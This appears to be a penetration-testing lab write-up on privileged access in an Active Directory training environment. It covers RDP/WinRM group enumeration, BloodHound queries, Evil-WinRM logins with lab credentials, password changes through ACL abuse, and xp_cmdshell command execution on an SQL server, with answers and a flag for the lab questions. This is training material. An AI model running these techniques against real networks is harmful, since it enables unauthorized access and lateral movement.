<div align='center'>

# **Lab 18: Privileged Access** 

</div>

## **Remote Desktop**

**Enumerating the Remote Desktop Users Group**

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```



We can see that all Domain Users (meaning all users in the domain) can RDP to this host

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

Collecting information

```powershell
SharpHound.exe -c All --zipfilename ILFREIGHT
```



Load into BloodHound



**Checking Remote Access Rights using BloodHound**



## **WinRM**

**Enumerating the Remote Management Users Group**

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```



We can see that user `forend` is a member of this group and can use WinRM to remotely manage this host

**Using the Cypher Query in BloodHound**

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```



**Question:** What other user in the domain has CanPSRemote rights to a host?
- **Answer:** bdavis

**Question:** What host can this user access via WinRM? (just the computer name)
- **Answer:** ACADEMY-EA-DC01



**Establishing WinRM Session from Windows (forend)**

```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```



**Connecting to a Target with Evil-WinRM and Valid Credentials on Linux**

Get the IP address of the target host

```powershell
ipconfig
```



```zsh
evil-winrm -i 172.16.5.25 -u forend -p 'Klmcargo2'
```




## **SQL Server Admin**

Custom query

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```


We find the user `damundsen` has SQL Admin rights on the host `ACADEMY-EA-DB01`

Abusing ACL of user `wley` to change the password of user `damundsen` to `SQL1234!`. Refer to [Lab 16](Lab16_ACL_Abuse_Tactics.md) for more details

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell
Get-SQLInstanceDomain
```



Authenticate against the remote SQL server host and run custom queries or operating system commands



**Running mssqlclient.py Against the Target on Linux**

```zsh
mssqlclient.py 'INLANEFREIGHT/DAMUNDSEN:SQL1234!@172.16.5.150' -windows-auth
```



Choosing `enable_xp_cmdshell`



Enumerating our Rights on the System using xp_cmdshell

```zsh
xp_cmdshell whoami /priv
```



**Question:** Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.



- **Answer:** 1m_the_sQl_@dm1n_n0w!

